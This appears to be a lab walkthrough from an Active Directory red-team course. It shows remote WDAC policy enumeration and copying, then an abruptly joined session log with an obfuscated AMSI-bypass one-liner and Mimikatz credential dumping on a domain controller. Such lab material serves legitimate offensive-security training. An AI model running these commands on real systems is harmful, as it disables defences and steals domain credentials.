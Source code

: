 ```
C:\Users\jumpone$>exit

PS C:\Windows\system32> winrs -r:us-jump3 "powershell Get-CimInstance -ClassName Win32_DeviceGuard -Namespace root\Microsoft\Windows\DeviceGuard"

[SNIP]

AvailableSecurityProperties                  : {1, 3, 5, 7}
CodeIntegrityPolicyEnforcementStatus         : 2 📌
InstanceIdentifier                           : 4ff40742-2649-41b8-bdd1-e80fad1cce80
RequiredSecurityProperties                   : {0}
SecurityServicesConfigured                   : {0}
SecurityServicesRunning                      : {0}
UsermodeCodeIntegrityPolicyEnforcementStatus : 2 📌
Version                                      : 1.0 📌
VirtualizationBasedSecurityStatus            : 0
VirtualMachineIsolation                      : False
VirtualMachineIsolationProperties            : {0}
PSComputerName                               :
```

We can now attempt to copy and parse the WDAC config deployed on `us-jump3` to find suitable bypasses and loopholes in the policy.

```
PS C:\Windows\system32> dir \\us-jump3.US.TECHCORP.LOCAL\c$\Windows\System32\CodeIntegrity

    Directory: \\us-jump3.US.TECHCORP.LOCAL\c$\Windows\System32\CodeIntegrity


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        7/12/2019  12:49 AM         109627 BlockRules.xml
-a----        12/4/2023  12:58 AM          60636 DG.bin.p7 📌
-a----         1/4/2024   6:28 AM          25628 driver.stl
-a----         1/4/2024   6:29 AM         150679 driversipolicy.p7b
-a----        12/4/2023  12:58 AM          60636 SiPolicy.p7b 📌
```

We find a deployed policy named `DG.bin.p7`/`SiPolicy.p7b` in the `CodeIntegrity` folder. Copy either policy binary back over to our student VM.

```
PS C:\Windows\system32> copy \\us-jump3.US.TECHCORP.LOCAL\c$\Windows\System32\CodeIntegrity\DG.bin.p7 C:\AD\Tools
```

⭐ Note that to confirm that a WDAC policy was deployed using GPO, we would have to enumerate the specific GPO GUID path (e.g. SYSVOL on DC) and locate the appropriate `Registry.pol` file in the Machine subdirectory. We can then use the `Parse-PolFile` cmdlet to parse the `Registry.Pol` file and attempt to read the exact deployment location and other details for the WDAC policy (can be deployed locally or on a remote share).

Now spawn a new PowerShell prompt on the student VM using Invisi-Shell and import the `CIPolicyParser.ps1` script to parse the copied policy binary.


[us-mailmgmt]: PS C:\Users\Administrator\Documents>
[us-mailmgmt]: PS C:\Users\Administrator\Documents> $env:username
[us-mailmgmt]: PS C:\Users\Administrator\Documents> $env:computername
[us-mailmgmt]: PS C:\Users\Administrator\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + (("{1}{0}"-f'1','blE:')+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a')) ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
[us-mailmgmt]: PS C:\Users\Administrator\Documents> exit
[us-mailmgmt]: PS C:\Users\Administrator\Documents> Invoke-Mimi -Command '"sekurlsa::keys"'
[us-dc]: PS C:\Users\Administrator\Documents> whoami
[us-dc]: PS C:\Users\Administrator\Documents> hostname
[us-dc]: PS C:\Users\Administrator\Documents>exit
[us-dc.us.techcorp.local]: PS C:\Users\Administrator\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + (("{1}{0}"-f'1','blE:')+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a')) ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
[us-dc.us.techcorp.local]: PS C:\Users\Administrator\Documents> exit
[us-dc.us.techcorp.local]: PS C:\Users\Administrator\Documents> Invoke-Mimi -Command '"lsadump::lsa /patch"'